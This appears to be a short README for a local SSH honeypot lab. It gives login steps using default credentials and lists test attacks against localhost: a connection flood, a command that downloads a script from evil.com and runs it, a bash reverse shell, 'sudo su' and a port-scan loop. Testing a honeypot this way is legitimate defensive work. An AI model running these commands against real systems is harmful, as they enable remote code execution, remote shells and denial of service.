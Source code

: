 "# HACK-" 
open cmd : to login 
ssh admin@localhost -p 2222

try worng passwords 
correct password :password

once login try : 

<img width="465" height="457" alt="image" src="https://github.com/user-attachments/assets/e1ff4779-e72b-420d-a613-dd4a13f253c3" />

<img width="605" height="369" alt="image" src="https://github.com/user-attachments/assets/4aa931a3-a8cc-4cdd-8e4c-cbbd13d9c178" />

in cmd if the following error occurs 

""""" @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
SHA256:0c20MU9M8La+J3A0ZHkPyid89qFn3zJfkqB5gorgKUk.
Please contact your system administrator.
Add correct host key in C:\\Users\\Dell/.ssh/known_hosts to get rid of this message.
Offending RSA key in C:\\Users\\Dell/.ssh/known_hosts:1
Host key for [localhost]:2222 has changed and you have requested strict checking.
Host key verification failed.  """""

try : ssh-keygen -R "[localhost]:2222"
then again : ssh admin@localhost -p 2222


other attacks :
Connection Flood:

for /L %i in (1,1,10) do start ssh admin@localhost -p 2222

Malicious Command Injection:

ssh admin@localhost -p 2222 "wget http://evil.com/script.sh -O /tmp/script.sh; chmod +x /tmp/script.sh; /tmp/script.sh"

Reverse Shell Attempt:

ssh admin@localhost -p 2222 "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"

Sudo Privilege Escalation:

ssh admin@localhost -p 2222
 Then in session: sudo su

Port Scanning:

for /L %i in (1,1,100) do (
  timeout 1 ssh admin@localhost -p %i 2>nul && echo Port %i is open || echo Port %i is closed
)

